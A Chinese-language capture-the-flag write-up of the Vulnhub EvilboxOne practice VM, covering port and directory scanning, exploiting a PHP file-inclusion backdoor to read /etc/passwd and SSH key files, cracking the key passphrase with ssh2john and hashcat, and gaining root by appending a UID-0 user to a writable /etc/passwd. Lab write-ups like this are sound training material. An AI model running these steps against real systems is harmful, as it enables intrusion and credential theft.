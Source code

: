 ```yaml
---
title: Vulnhub-EvilboxOne
categories: 靶场
tags:
  - 靶场
Author: Y4tacker
password: ''
abstract: '有东西被加密了, 请输入密码查看.'
message: '您好, 这里需要密码.'
wrong_pass_message: '抱歉, 这个密码看着不太对, 请再试试.'
wrong_hash_message: '抱歉, 这个文章不能被校验, 不过您还是能看看解密后的内容.'
theme: xray
date: 2022-12-15 10:34:09
---
```


# Vulnhub-EvilboxOne

## 环境配置

新买的Intel nuc华尔街到了，可以搭建靶场了，很完美

不知道vmware桥接为什么失败，看官方说这个靶机推荐在virtualbox搭建

下载了个百M的安装上确实很小一个

![image-20221215103821186](./Vulnhub-EvilboxOne/image-20221215103821186.png)



## 初步信息收集

### 端口扫描

发现开启了22与80端口

```bash
nmap -p- 172.20.10.7
nmap -p22,80 -sV 172.20.10.7
```

![image-20221215104620385](./Vulnhub-EvilboxOne/image-20221215104620385.png)

### 网站探测

打开网站啥都没有，一般这种情况就是没找到具体站点看来得扫一扫

![image-20221215104904527](./Vulnhub-EvilboxOne/image-20221215104904527.png)

dirsearch扫一下，发现关键路径

![image-20221215105209753](./Vulnhub-EvilboxOne/image-20221215105209753.png)

robots.txt并没有什么有效信息

![image-20221215105252487](./Vulnhub-EvilboxOne/image-20221215105252487.png)

再对secret下进行扫描(默认字典里是没有的，网上之前收集了一个字典)

```bash
dirsearch -u http://url/secret -w path.txt

```



![image-20221215110013372](./Vulnhub-EvilboxOne/image-20221215110013372.png)

### wfuzz探测

网站直接访问为空，应该就是留了个后门

既然是evil，肯定有隐藏参数，用wfuzz进行一波爆破

```bash
wfuzz -u "http://172.20.10.7/secret/evil.php?FUZZ=id" -w /usr/share/wordlists/wfuzz/general/common.txt --hw 0
```

先后尝试了命令执行和直接文件包含，发现文件包含有结果，顺便得到参数名command

![image-20221215111438918](./Vulnhub-EvilboxOne/image-20221215111438918.png)

## 文件包含利用

既然如此那么我们就可以看看evil.php长啥样,访问`http://172.20.10.7/secret/evil.php?command=php://filter/convert.base64-encode/resource=evil.php`

解码后发现

```php
<?php
    $filename = $_GET['command'];
    include($filename);
?>
```

尝试日志包含RCE，但没找到apache日志路径，不过也得到一些“有用”的信息，在`/etc/apache2/sites-available/000-default.conf`中

```conf

<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

另外/proc/self/environ也不能访问所以也没办法靠猜了

看看历史命令吧，发现有俩用户一个`root`另一个叫`mowree`

```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```

历史命令无`/home/mowree/.bash_history`,之后尝试读取`/home/mowree/.ssh/authorized_keys`发现

```ssh
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne
```

关于什么是authorized_keys

我们需要本地机器ssh访问远程服务器时为了减少输入密码的步骤，基本上都会在本地机器生成ssh公钥，然后将本地ssh公钥复制到远程服务器的.ssh/authorized_keys中，这样就可以免密登录了

并且一般用户的 .ssh 目录下会存在三个文件：
```
id_rsa : 私钥。
authorized_keys : 认证关键字文件。
id_rsa.pub : 公钥
```

## 获取私钥远程登录

将私钥下载下来后登录以后发现使用私匙进行登录时发现还需要密码才可以

![image-20221215142459712](./Vulnhub-EvilboxOne/image-20221215142459712.png)

那么就需要破解了,通过`locate ssh2john`定位位置

```bash
python3 /usr/share/john/ssh2john.py id_rsa > rsacracked
```

hashcat指定模式爆破

```
hashcat -m 22911 1.txt rockyou.txt --force
```

拿下密码unicorn

![image-20221215145304885](./Vulnhub-EvilboxOne/image-20221215145304885.png)

成功登录ssh

![image-20221215145516177](./Vulnhub-EvilboxOne/image-20221215145516177.png)



## 提权

passwd可写

![image-20221215150201751](./Vulnhub-EvilboxOne/image-20221215150201751.png)

生成带salt的密码

```
perl -le 'print crypt("test","addedsalt")''
```

写入

```
echo "test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash" >>/etc/passwd
```





提权成功

![image-20221215151013432](./Vulnhub-EvilboxOne/image-20221215151013432.png)

